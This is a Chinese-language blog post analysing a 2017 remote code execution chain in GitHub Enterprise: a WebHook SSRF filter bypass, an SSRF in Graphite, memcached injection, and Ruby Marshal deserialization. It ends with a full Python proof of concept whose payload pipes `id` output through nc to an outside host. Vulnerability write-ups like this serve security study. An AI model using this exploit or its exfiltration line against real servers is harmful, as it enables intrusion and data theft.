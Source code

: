 ```yaml
---
title: GitHub Enterprise远程代码执行解读
date: 2017-08-16 15:29:05
tags: web漏洞分析
categories: 技术

top_img: https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/php.jpg
---
```


GitHub Enterprise和GitHub的服务类似，不过它为大型企业的开发团队量身定制。

根据Github官方博客：GitHub Enterprise包括了Github之前的所有主要功能，包括提交历史、代码浏览、比较视图、推送请求、问题追踪、Wiki、Gist共享代码段、团队管理等，此外，还提供了更强大的API以及一个更漂亮的Web界面。

在GitHub Enterprise上，你可以在自己的服务器本地运行这些功能。

<!--more-->

## 漏洞解读

在GitHub Enterprise中，有一个名为WebHook的功能。关于WebHook，我在下面简单的介绍下：

Webhook是什么？

Webhook，也就是人们常说的钩子，是一个很有用的工具。可以通过定制 Webhook 来监测用户在 Github.com 上的各种事件，最常见的莫过于 push 事件。如果用户设置了一个监测 push 事件的 Webhook，那么每当用户的这个项目有了任何提交，这个 Webhook 都会被触发，这时 Github 就会发送一个 HTTP POST 请求到用户配置好的地址。

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/1-4.png) ![](http://blog.nsfocus.net/wp-content/uploads/2017/08/5-3.png)

GitHub Enterprise中的WebHook功能，在Hooks&amp;services配置选项下。它能在执行选定git操作时执行时自定义HTTP回调。

GitHub Enterprise通过Gem的faraday-restrict-ip-addresses功能来防止用户请求内部服务。下面看下faraday-restrict-ip-addresses功能是如何防止ssrf的：

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/2-5.png)

这里可以看出，它是通过限定了一个黑名单的方式，来避免用户在WebHook中添加内网地址。

漏洞发现者提供了一个方法来绕过这层防护，他提出可以通过RFC 3986定义的稀有IP地址格式（Rare IP Address Formats）来绕过它：

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/3-4.png)

这个地址在Linux系统中，0代表的是localhost，在绕过faraday-restrict-ip-addresses中的黑名单同时，可以访问服务器内网资源。

现在我们可以访问内网资源了，应该想到的的是利用缓存数据进行反序列化来利用，以redis为例，我们要想在redis中写入反序列化数据，就想到要用Python的urllib库曾出过一个头注入的漏洞（CVE-2016-5699）来构造http头向redis写入数据。

再来看看我们现在控制的这处ssrf，它有一个问题，它是基于通过ruby-Gem的faraday来解析数据的，faraday中不存在CR-LF命令注入，所以没办法通过这个ssrf构造http头向缓存中写东西的。

下面的思路就是，我们要找到一个内网服务，它需要是python写的（存在头注入的漏洞），并且它也得存在一个ssrf，用来访问本地的缓存服务并向其中写入数据。

漏洞发现者找到了GitHub Enterprise中的一个这样的服务：**Graphite****服务，**Graphite中有一个ssrf漏洞，位于

webapps/graphite/composer/views.py

**![](http://blog.nsfocus.net/wp-content/uploads/2017/08/4-4.png)**

可以看出Graphite服务可以接收url地址并进行利用，如果后台采用redis进行缓存，漏洞发现者给出下面的利用构造：

![](http://blog.nsfocus.net/wp-content/uploads/2017/08/5-3.png)

（注：Graphite服务启用在本地8000端口）

但是漏洞发现者发现“GitHub Enterprise使用Ruby Gem的Memcached方式来处理缓存，而其通过Marshal模块进行封装” 。并且他提到“GitHub Enterprise Rails控制端中存在反序列化漏洞的Marshal” Marshal模块的反序列化漏洞这里就不介绍了，可以自己分析一下。

## 漏洞利用

因此最后构造的poc如下：

#!/usr/bin/python

from urllib import quote

''' set up the marshal payload from IRB

code = "`id | nc orange.tw 12345`"

p "\x04\x08" + "o"+":\x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy"+"\x07" + ":\x0E@instance" + "o"+":\x08ERB"+"\x07" + ":\x09@src" + Marshal.dump(code)[2..-1] + ":\x0c@lineno"+ "i\x00" + ":\x0C@method"+":\x0Bresult"

'''

marshal_code = '\x04\x08o:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\x07:\x0e@instanceo:\x08ERB\x07:\t@srcI"\x1e`id | nc orange.tw 12345`\x06:\x06ET:\x0c@linenoi\x00:\x0c@method:\x0bresult'

payload = [

'',

'set githubproductionsearch/queries/code_query:857be82362ba02525cef496458ffb09cf30f6256:v3:count 0 60 %d' % len(marshal_code),

marshal_code,

'',

''

]

payload = map(quote, payload)

url = 'http://0:8000/composer/send_email?to=orange@chroot.org&amp;url=http://127.0.0.1:11211/'

print "\nGitHub Enterprise &lt; 2.8.7 Remote Code Execution by orange@chroot.org"

print '-'*10 + '\n'

print url + '%0D%0A'.join(payload)

print '''

Inserting WebHooks from:

https://ghe-server/:user/:repo/settings/hooks

Triggering RCE from:

https://ghe-server/search?q=ggggg&amp;type=Repositories

'''

&nbsp;

参考链接

http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html